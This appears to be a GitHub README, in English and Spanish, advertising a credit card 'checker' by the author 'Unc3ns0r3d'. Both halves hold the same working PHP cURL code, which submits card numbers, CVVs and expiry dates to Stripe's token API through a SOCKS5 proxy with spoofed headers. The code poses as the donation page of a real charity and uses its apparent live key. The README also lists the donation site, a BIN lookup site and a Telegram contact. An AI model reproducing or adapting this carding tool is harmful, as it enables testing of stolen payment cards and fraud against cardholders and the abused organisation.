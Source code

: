 <a href="http://uncensored.vzpla.net/"><img src="https://i62.servimg.com/u/f62/12/98/31/84/logo10.jpg?v=3&s=200" title="Unc3ns0r3d Checker" alt="Unc3ns0r3d Checker"></a>

# ⛔Unc3ns0r3d-Checker⛔

> Language: EN (ENGLISH)

✔ Credit card 💳 checker, based on real donation systems and stripe. 


```php
// cURL Stripe Method by ⛔UJnc3ns0r3d⛔

$nombre = datosnombre();
$apellido = datosapellido();
$email = email($nombre);
$ch = curl_init();
curl_setopt($ch, CURLOPT_URL, 'https://api.stripe.com/v1/tokens');
curl_setopt($ch, CURLOPT_HEADER, 0);
curl_setopt($ch, CURLOPT_USERAGENT, $_SERVER['HTTP_USER_AGENT']);
curl_setopt($ch, CURLOPT_PROXY, $proxy);
curl_setopt($ch, CURLOPT_PROXYTYPE, CURLPROXY_SOCKS5);
curl_setopt($ch, CURLOPT_FOLLOWLOCATION, 1);
curl_setopt($ch, CURLOPT_RETURNTRANSFER, 1);
curl_setopt($ch, CURLOPT_SSL_VERIFYPEER, 0);
curl_setopt($ch, CURLOPT_SSL_VERIFYHOST, 0);
    curl_setopt($ch, CURLOPT_HTTPHEADER, array(
   'Host: api.stripe.com',
'User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:59.0) Gecko/20100101 Firefox/59.0',
'Accept: application/json',
'Referer: https://js.stripe.com/v3/controller-e5a3104782ffac207edc3af004b9574b.html',
'Content-Type: application/x-www-form-urlencoded',
'Connection: keep-alive'));

curl_setopt($ch, CURLOPT_COOKIEFILE, getcwd().'/cookie.txt');
curl_setopt($ch, CURLOPT_COOKIEJAR, getcwd().'/cookie.txt');
curl_setopt($ch, CURLOPT_POSTFIELDS, 'card[name]='.$nombre.'+'.$apellido.'&card[address_line1]=&card[address_city]=&card[address_zip]=10001&card[currency]=USD&card[number]='.$cc.'&card[cvc]='.$cvv.'&card[exp_month]='.$mes.'&card[exp_year]='.$ano.'&guid=2a88d519-e56f-467a-9c63-c361a277ff54&muid=3190efac-5abc-4dac-9a48-03367b5b0064&sid=300c2fa4-1b47-44d1-8dfa-e0eb6728f2c3&payment_user_agent=stripe.js%2Fb78d06c%3B+stripe-js-v3%2Fb78d06c&referrer=https%3A%2F%2Fsecure.avaaz.org%2Fdonate%2Fpub-iframe.php%2F%3Fcid%3D3116%26lang%3Des%26sourceUrl%3Dhttps%253A%252F%252Fsecure.avaaz.org%252Fes%252Fdonate%252F&key=pk_live_eT3tlxY6x7Nzg9eDNkMYz99F&pasted_fields=number');
```
###  SITES 🌐

- **Site Donation 1**
    - https://secure.avaaz.org/

- **Site API 1**
    - https://api.stripe.com/v1/tokens
    
- **Site BIN 1**
    - https://lookup.binlist.net/


### Files included 📂

- api.php


### About Me 👨‍💻

Founder of Unc3ns0r3d💳 - HasBins💳 - CloudChckr💳 (Closed)

My favorite programming languages are C ++, VB.NET, PYTHON, PHP, JAVASCIPRT and JQUERY❤

I love coffee❤

The Unc3ns0r3d project was created 04/26/2018

### Contact Me ✉
- @MrPopos2 - Telegram

================================================================

> Idioma: ES (Español)

Checker de tarjetas de crédito, basado en sistemas de donación reales y stripe

```php
// cURL Stripe Method by ⛔UJnc3ns0r3d⛔

$nombre = datosnombre();
$apellido = datosapellido();
$email = email($nombre);
$ch = curl_init();
curl_setopt($ch, CURLOPT_URL, 'https://api.stripe.com/v1/tokens');
curl_setopt($ch, CURLOPT_HEADER, 0);
curl_setopt($ch, CURLOPT_USERAGENT, $_SERVER['HTTP_USER_AGENT']);
curl_setopt($ch, CURLOPT_PROXY, $proxy);
curl_setopt($ch, CURLOPT_PROXYTYPE, CURLPROXY_SOCKS5);
curl_setopt($ch, CURLOPT_FOLLOWLOCATION, 1);
curl_setopt($ch, CURLOPT_RETURNTRANSFER, 1);
curl_setopt($ch, CURLOPT_SSL_VERIFYPEER, 0);
curl_setopt($ch, CURLOPT_SSL_VERIFYHOST, 0);
    curl_setopt($ch, CURLOPT_HTTPHEADER, array(
   'Host: api.stripe.com',
'User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:59.0) Gecko/20100101 Firefox/59.0',
'Accept: application/json',
'Referer: https://js.stripe.com/v3/controller-e5a3104782ffac207edc3af004b9574b.html',
'Content-Type: application/x-www-form-urlencoded',
'Connection: keep-alive'));

curl_setopt($ch, CURLOPT_COOKIEFILE, getcwd().'/cookie.txt');
curl_setopt($ch, CURLOPT_COOKIEJAR, getcwd().'/cookie.txt');
curl_setopt($ch, CURLOPT_POSTFIELDS, 'card[name]='.$nombre.'+'.$apellido.'&card[address_line1]=&card[address_city]=&card[address_zip]=10001&card[currency]=USD&card[number]='.$cc.'&card[cvc]='.$cvv.'&card[exp_month]='.$mes.'&card[exp_year]='.$ano.'&guid=2a88d519-e56f-467a-9c63-c361a277ff54&muid=3190efac-5abc-4dac-9a48-03367b5b0064&sid=300c2fa4-1b47-44d1-8dfa-e0eb6728f2c3&payment_user_agent=stripe.js%2Fb78d06c%3B+stripe-js-v3%2Fb78d06c&referrer=https%3A%2F%2Fsecure.avaaz.org%2Fdonate%2Fpub-iframe.php%2F%3Fcid%3D3116%26lang%3Des%26sourceUrl%3Dhttps%253A%252F%252Fsecure.avaaz.org%252Fes%252Fdonate%252F&key=pk_live_eT3tlxY6x7Nzg9eDNkMYz99F&pasted_fields=number');
```

###  SITIOS 🌐

- **Sitio Donación**
    - https://secure.avaaz.org/

- **Sitio API 1**
    - https://api.stripe.com/v1/tokens
    
- **Sitio BIN 1**
    - https://lookup.binlist.net/


### Archivos Incluidos 📂

- api.php


### Sobre Mi 👨‍💻

Fundador de Unc3ns0r3d💳 - HasBins💳 - CloudChckr💳 (Cerrado)

Mis lenguajes favorios de programación son C ++, VB.NET, PYTHON, PHP, JAVASCIPRT y JQUERY❤

Amo el café❤

Proyecto Unc3ns0r3d fue creado el día 04/26/2018

### Contactame ✉
- @MrPopos2 - Telegram
